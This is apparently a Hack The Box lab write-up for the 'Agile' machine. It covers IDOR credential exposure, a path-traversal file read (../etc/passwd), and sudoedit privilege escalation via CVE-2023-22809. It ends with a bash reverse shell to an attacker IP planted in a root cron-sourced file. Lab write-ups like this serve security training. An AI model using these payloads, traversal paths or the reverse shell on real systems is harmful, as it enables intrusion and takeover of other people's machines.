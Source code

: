 # Agile

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Agile/Agile.png)

## nmap
    
    ```
    22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCeVL2Hl8/LXWurlu46JyqOyvUHtAwTrz1EYdY5dXVi9BfpPwsPTf+zzflV+CGdflQRNFKPDS8RJuiXQa40xs9o=
    |   256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEcaZPDjlx21ppN0y2dNT1Jb8aPZwfvugIeN6wdUH1cK
    80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://superpass.htb
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    | http-methods:
    |_  Supported Methods: GET HEAD POST OPTIONS
    ```
    

## IDOR

When we edit our password entries, we can change the id in the URL

- /vault/edit_row/3

```
url - hackthebox.com
username - 0xdf
password - 762b430d32eea2f12970
```

- /vault/edit_row/4

```
url - mgoblog.com
username - 0xdf
password - 5b133f7a6a1c180646cb
```

- /vault/edit_row/6

```
url - mgoblog
username - corum
password - 47ed1e73c955de230a1d
```

- /vault/edit_row/7

```
url - ticketmaster
username - corum
password - 9799588839ed0f98c211
```

- /vault/edit_row/8

```
url - agile
username - corum
password - 5db7caa1d13cc37c9fc2
```

We find with dirsearch the path `/download`

## LFI

We can use the `fn` `URL-Parameter` to read files from `/tmp`

- [http://superpass.htb/download?fn=../etc/passwd](http://superpass.htb/download?fn=../etc/passwd)

We know there is the user corum in /etc/passwd

We can login over ssh with the password

`corum : 5db7caa1d13cc37c9fc2`

→ user.txt

# Lateral Movement: from edwards

- `netstat -tulpn`

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:41829         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:58409         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 ::1:58409               :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

We see the port `5555` is the password vault website, but this is only at the localhost.

## SSH Tunneling

- `ssh -L 5555:127.0.0.1:5555 corum@agile.htb`

Create a new account and use the IDOR again

### IDOR

- `/vault/edit_row/1`

```
url - agile
username - edwards
password - d07867c6267dcb5df0af
```

We can now login to the user

`edwards : d07867c6267dcb5df0af`

# Lateral Movement: from dev_admin

- `sudo -l`

```
User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

### sudoedit — [`CVE-2023-22809`](https://nvd.nist.gov/vuln/detail/CVE-2023-22809)

> In Sudo before 1.9.12p2, the sudoedit (aka -e) feature mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.
> 
- `sudo -V`

```
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

We can use this exploit to read any file from user `dev_admin`

https://github.com/n3m1dotsys/CVE-2023-22809-sudoedit-privesc

[Part 14 - CVE-2023-22809](https://www.youtube.com/watch?v=EYGdHwkaqmA&ab_channel=BlueAce)

- `find / -type f -group dev_admin 2>/dev/null`

```
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

### PsPy

We see root runs this file in a cronjob !

```
2023/03/08 19:52:01 CMD: UID=0    PID=2380   | /bin/bash -c source /app/venv/bin/activate
```

Write a rev shell to this file. 

- `EDITOR='vi -- /app/venv/bin/activate' sudo -u dev_admin sudoedit /app/config_test.json`

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.18/4444 0>&1'
```

Save with :wq!

After some time…

→ root.txt
